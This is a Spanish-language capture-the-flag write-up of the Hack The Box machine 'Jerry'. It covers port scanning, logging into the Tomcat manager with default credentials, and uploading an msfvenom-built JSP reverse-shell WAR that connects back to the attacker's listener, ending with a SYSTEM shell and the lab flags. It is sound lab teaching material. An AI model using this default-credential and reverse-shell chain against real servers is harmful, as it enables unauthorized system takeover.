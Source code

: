 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Esta maquina es bastante facililla, vamos a explotar un Tomcat aprovechandonos de un upload en una pagina, aunque primero necesitamos credenciales validas. Asi que vamos a ello."
date: 2021-9-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-Jerry/Jerry_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
   - hackthebox
   - infosec
tags:
    - linux
    - tomcat
    - file upload
    - web loger
    - revershell
---
```


![](/assets/images/htb-writeup-Jerry/Jerry_logo.png)

# Reconocimiento

Primero vamos a realizar como siempre un reconocimiento de puertos por el protocolo **TCP**, y el output lo redirigiremos al archivo `allPorts`

```bash

h3g0c1v@kali:~/htb/jerry$ nmap --min-rate 5000 -p- --open -vvv -n -Pn -oG allPorts 10.10.10.95

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:43 CEST
Initiating SYN Stealth Scan at 20:43
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 20:44, 26.36s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.041s latency).
Scanned at 2021-09-15 20:43:54 CEST for 26s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

```

Y vemos que solo tiene un puerto abierto, que es el puerto 8080.
Antes de ver que nos dice el whatweb vamos a ejecutar una herramienta llamada `extractPorts` que yo tengo previamente definidad en la `.zshrc`. Dicha herramienta esta creada por s4vitar

```bash

extractPorts allPorts 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.95
   5   │     [*] Open ports: 8080
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴─────────────────────────────────────────────────────────────────

```

Y vamos a detectar la version y servicios que corren para el puerto 8080.

```bash

nmap -sC -sV -p8080 10.10.10.95
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-15 20:49 CEST
Nmap scan report for 10.10.10.95
Host is up (0.040s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```

Muy bien nos reporta un poco mas de informaciond. Aun asi, veamos que nos dice el whatweb.

```bash

h3g0c1v@kali:~/htb/jerry$ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]

```
# Consiguiendo Acceso a la Maquina

Genial, veamos que contiene ese servidor web Tomcat

![](/assets/images/htb-writeup-Jerry/Tomcat_page.png)

Y nos aparece lo siguiente. Muy bien a mi se me ocurre mirar a ver si tiene un panel login la pagina web. La ruta en la que normalmente esta almacenado el panel login en Tomcat es `/manager/html`, asi que vamos a probar.

![](/assets/images/htb-writeup-Jerry/tomcat_page.png)

Vamos a probar con las credenciales tipicas de **admin** **admin**. ¡Y vemos las credenciales! ¡Por que si! Que raro es esto, pero la hemos encontrado

![](/assets/images/htb-writeup-Jerry/credentials.png)

Bueno pues nos logeamos con las credenciales y vemos lo siguiente

![](/assets/images/htb-writeup-Jerry/dentro_tomcat.png)

Por abajo veo que hay un **upload** de archivos `.war` por lo que voy a intentar meter una revershell, para intentar ganar acceso al sistema.

Y para ello utilizaremos **msfvenom** para utilizar la reveshell hecha con **java** llamada `java/jsp_shell_reverse_tcp`.

```bash

h3g0c1v@kali:~/htb/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f war > revershell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

```

Ahora metemos el archivo `.war` en la pagina web, para que nos cree otro modulo.

![](/assets/images/htb-writeup-Jerry/revershell.png)

Y una vez metido el archivo en la maquina nos ponemos en escucha por el puerto **443**, para ver si es vulnerable.

```bash

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>


```
#Visualizando las Flags

¡Y si! Es vulnerable y ya hemos ganado acceso al sistema, incluso lo hemos hecho como `nt authority\system`.

```bash

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

Asi que ya hemos comprometido la maquina **Windows Jerry** y podemos ver las flags de **user.txt** y **root.txt**.

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

```
